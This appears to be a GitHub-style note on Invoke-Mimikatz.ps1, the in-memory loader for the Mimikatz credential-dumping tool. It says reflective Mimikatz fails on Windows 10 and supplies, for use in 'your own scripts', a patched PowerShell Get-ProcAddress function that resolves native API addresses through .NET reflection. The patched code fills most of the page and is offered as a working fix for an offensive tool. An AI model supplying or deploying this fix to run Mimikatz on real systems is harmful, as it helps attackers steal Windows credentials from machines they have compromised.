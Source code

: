 # Invoke-Mimikatz.ps1

So unless you have bleeding edge powersploit right now, then Reflective Mimikatz wont work on **Windows 10**, however with a little change to the 'Get-ProcAddress' function you can get it working. Basically within Windows 10 the function now takes two arguments ^.\^
> Here's the function change if you want to add it into any of your own scripts.

    Function Get-ProcAddress
	{
	    Param
	    (
	        [OutputType([IntPtr])]
	        [Parameter( Position = 0, Mandatory = $True )]
	        [String]
	        $Module,
	        [Parameter( Position = 1, Mandatory = $True )]
	        [String]
	        $Procedure
	    )
	    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') };
        $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods');
        # Get a reference to the GetModuleHandle and GetProcAddress methods
        $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle');
        #Deal with the fact that windows now has two of these, we'll select the second one
        $x=$($UnsafeNativeMethods.GetMethods() | where-object {$_.name -eq "getprocaddress"});

        if(Get-Member -InputObject $x -Name Length -MemberType Properties) {
            write-host $x | format-table
            $GetProcAddress = $x[1];
        } else {
            $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
        }
            
	    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
	    $tmpPtr = New-Object IntPtr
	    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
	    Write-Output $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
	}

